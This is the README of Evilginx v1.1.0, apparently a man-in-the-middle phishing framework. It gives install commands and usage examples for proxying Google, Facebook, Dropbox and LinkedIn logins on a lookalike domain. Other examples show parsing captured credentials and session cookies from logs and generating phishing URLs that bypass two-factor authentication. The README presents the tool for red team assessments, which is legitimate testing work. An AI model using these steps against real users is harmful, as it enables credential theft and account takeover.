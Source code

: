 ## Evilginx v.1.1.0

![Evilginx](/img/evilginx-title.png?raw=true "Evilginx")

Evilginx is a man-in-the-middle attack framework used for phishing credentials and session cookies of any web service. It's core runs on Nginx HTTP server, which utilizes `proxy_pass` and `sub_filter` to proxy and modify HTTP content, while intercepting traffic between client and server.

You can learn how it works and how to install everything yourself on my blog:

First post slightly outdated now: [Evilginx - Advanced Phishing With Two-factor Authentication Bypass](https://breakdev.org/evilginx-advanced-phishing-with-two-factor-authentication-bypass/)

Evilginx 1.0 Update: [Evilginx 1.0 Update - Up Your Game in 2FA Phishing](https://breakdev.org/evilginx-1-0-update-up-your-game-in-2fa-phishing)

#### Contributors Hall of Fame

[@poweroftrue](https://github.com/poweroftrue)

#### Installation

Evilginx provides an installation script `install.sh` that takes care of installing the whole package on any Debian wheezy/jessie machine, in fire and forget manner.

```
git clone https://github.com/kgretzky/evilginx
cd evilginx
chmod 700 install.sh
./install.sh
```

#### Usage

```
            _ _       _            
           (_) |     (_)           
  _____   ___| | __ _ _ _ __ __  __
 / _ \ \ / / | |/ _` | | '_ \\ \/ /
|  __/\ V /| | | (_| | | | | |>  < 
 \___| \_/ |_|_|\__, |_|_| |_/_/\_\
                 __/ |             
 by @mrgretzky  |___/          v1.0

usage: evilginx.py [-h] {setup,parse,genurl} ...

positional arguments:
  {setup,parse,genurl}
    setup               Configure Evilginx.
    parse               Parse log file(s).
    genurl              Generate phishing URL.

optional arguments:
  -h, --help            show this help message and exit
```

###### Setup

Enable or disable site configurations for use with Nginx server, using supplied Evilginx templates from `sites` directory.

```
usage: evilginx.py setup [-h] [-d DOMAIN] [-y]
                         (-l | --enable ENABLE | --disable DISABLE)

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Your phishing domain.
  -y                    Answer all questions with 'Yes'.
  -l, --list            List available supported apps.
  --enable ENABLE       Enable following site by name.
  --disable DISABLE     Disable following site by name.
```

List available site configuration templates:
```
python evilginx.py setup -l

Listing available supported sites:

 - dropbox (/root/evilginx/sites/dropbox/config)
   subdomains: www
 - google (/root/evilginx/sites/google/config)
   subdomains: accounts, ssl
 - facebook (/root/evilginx/sites/facebook/config)
   subdomains: www, m
 - linkedin (/root/evilginx/sites/linkedin/config)
   subdomains: www
```

Enable google phishing site with preregistered phishing domain `not-really-google.com`:
```
python evilginx.py setup --enable google -d not-really-google.com
```

Disable facebook phishing site:
```
python evilginx.py setup --disable facebook
```

###### Parse

Parse Nginx logs to extract intercepted login credentials and session cookies. Logs, by default, are saved in `logs` directory, where `evilginx.py` script resides.
This can be done automatically after you enable auto-parsing in the **Setup** phase.

```
usage: evilginx.py parse [-h] -s SITE [--debug]

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to parse logs for ('all' to parse logs
                        for all sites).
  --debug               Does not truncate log file after parsing.
```

Parse logs only for google site:
```
python evilginx.py parse -s google
```

Parse logs for all available sites:
```
python evilginx.py parse -s all
```

###### Generate URL

Generate phishing URLs that you can use in your Red Team Assessments.

```
usage: evilginx.py genurl [-h] -s SITE -r REDIRECT

optional arguments:
  -h, --help            show this help message and exit
  -s SITE, --site SITE  Name of site to generate link for.
  -r REDIRECT, --redirect REDIRECT
                        Redirect user to this URL after successful sign-in.
```

Generate google phishing URL that will redirect victim to rick'roll video on successful login:
```
python evilginx.py genurl -s google -r https://www.youtube.com/watch?v=dQw4w9WgXcQ

Generated following phishing URLs:

 : https://accounts.not-really-google.com/ServiceLogin?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ
 : https://accounts.not-really-google.com/signin/v2/identifier?rc=0aHR0cHM6Ly93d3cueW91dHViZS5jb20vd2F0Y2g_dj1kUXc0dzlXZ1hjUQ
```
